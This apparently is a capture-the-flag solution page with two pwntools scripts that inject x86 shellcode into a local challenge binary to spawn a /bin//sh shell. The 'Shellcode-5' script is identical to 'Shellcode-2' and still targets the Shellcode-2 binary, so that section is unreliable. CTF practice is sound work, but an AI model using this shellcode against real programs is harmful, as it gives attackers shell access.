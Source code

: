
## Shellcode-2
```python=
#!/usr/bin/python3.7

from pwn import *

context.binary = exe = ELF('./Shellcode-2')

p = process(exe.path)

shellcode =b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x04\x0a\xfe\xc0\xcd\x80'
payload = shellcode
p.sendlineafter(b'E3\n', payload)
# p.sendline(b'cat flag')

p.interactive()
```

## Shellcode-5

```python=
#!/usr/bin/python3.7

from pwn import *

context.binary = exe = ELF('./Shellcode-2')

p = process(exe.path)

shellcode =b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x04\x0a\xfe\xc0\xcd\x80'
payload = shellcode
p.sendlineafter(b'E3\n', payload)
# p.sendline(b'cat flag')

p.interactive()
```
